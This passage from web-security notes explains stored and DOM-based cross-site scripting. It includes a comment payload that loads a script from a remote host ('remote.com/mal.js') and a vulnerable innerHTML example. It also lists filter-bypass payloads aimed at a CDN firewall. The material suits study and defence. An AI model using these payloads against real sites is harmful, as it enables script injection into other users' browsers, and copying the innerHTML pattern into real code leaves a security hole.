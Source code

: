 There, a bad actor could include any `JS` code that will be executed anytime the page is requested.

```

COMMENT HERE: <script src="http://remote.com/mal.js"></script>

```

From here on out, whenever the page is accessed, the script will be loaded.
  

## DOM-based
[https://owasp.org/www-community/attacks/DOM_Based_XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)

XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

### Example

```js
let search = document.getElementById("search").value;
let results = document.getElementById("results");

results.innerHTML = "Result: " + search;
```

If the attacker controls the value of the input, they can add any malicious script they want.

```
Result: "malicious script here"
```



# List of XSS Filter Bypasses

## Cloudfront

```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

">'><details/open/ontoggle=confirm('XSS')>

6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/

&quot;&gt;&lt;img src=x onerror=confirm(1);&gt;
```

## Cloudflare
